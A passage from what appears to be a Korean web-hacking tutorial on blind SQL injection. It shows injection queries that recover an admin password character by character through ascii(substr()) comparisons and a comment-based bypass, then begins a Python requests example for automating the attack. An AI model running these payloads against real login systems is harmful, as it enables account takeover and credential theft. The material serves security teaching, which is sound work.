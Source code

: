 ```SQL
substr(string, position, length)
substr('ABCD', 1, 1) = 'A'
substr('ABCD', 2, 2) = 'BC'
```

공격 쿼리문의 두 번째 조건을 살펴보면 upw 의 첫 번째 값을 아스키 형태로 변환한 값이 114 또는 115 인지 질의합니다

질의 결과는 로그인 성공 여부로 참 / 거짓을 판단할 수 있습니다
만약 로그인이 실패할 경우 첫 번째 문자가 r 이 아님을 의미합니다
이처럼 쿼리문의 반환 결과를 통해 admin 계정의 비밀번호를 획득할 수 있습니다

Figure4 Blind SQL Injection 공격 쿼리

```SQL
# 첫 번째 글자 구하기 (아스키 114 = 'r', 115 = 's'')
SELECT * FROM user_table WHERE uid='admin' and ascii(substr(upw,1,1))=114-- ' and upw=''; # False
SELECT * FROM user_table WHERE uid='admin' and ascii(substr(upw,1,1))=115-- ' and upw=''; # True
# 두 번째 글자 구하기 (아스키 115 = 's', 116 = 't')
SELECT * FROM user_table WHERE uid='admin' and ascii(substr(upw,2,1))=115-- ' and upw=''; # False
SELECT * FROM user_table WHERE uid='admin' and ascii(substr(upw,2,1))=116-- ' and upw=''; # True
```

## Blind SQL Injection 공격 스크립트
Blind SQL Injection 은 한 바이트씩 비교하여 공격하는 방식이기 때문에 다른 공격에 비해 많은 시간을 들여야합니다

이러한 문제를 해결하기 위해서는 공격을 자동화하는 스크립트를 작성하는 방법이 있습니다
공격 스크립트를 작성하기에 앞서 유용한 라이브러리를 알아보겠습니다

파이썬은 HTTP 통신을 위한 다양한 모듈이 존재하는데 대표적으로 requests 모듈이 있습니다

해당 모듈은 다양한 메소드를 사용해 HTTP 요청을 보낼 수 있으며 응답 또한 확인할 수 있습니다

Figure5 는 requests 모듈을 통해 HTTP 의 GET 메소드 통신을 하는 예제 코드입니다
request.get 은 GET 메소드를 사용해 HTTP 요청을 보내는 함수로 , URL 과 Header , Parameter 와 함께 요청을 전송할 수 있습니다

Figure6 은 HTTP 의 POST 메소드 통신을 하는 예제 코드입니다
request.post 는 POST 메소드를 사용해 HTTP 요청을 보내는 함수로 URL 과 Header , Body 와 함께 요청을 전송할 수 있습니다

Figure5 requests 모듈 GET 예제 코드

```python
import requests

url = 'https://dreamhack.io/'

headers = {
    'Content-Type': 'application/x-www-form-urlencoded',
    'User-Agent': 'DREAMHACK_REQUEST'
}

params = {
    'test': 1,
}

for i in range(1, 5):
    c = requests.get(url + str(i), headers=headers, params=params)
    print(c.request.url)
    print(c.text)
```
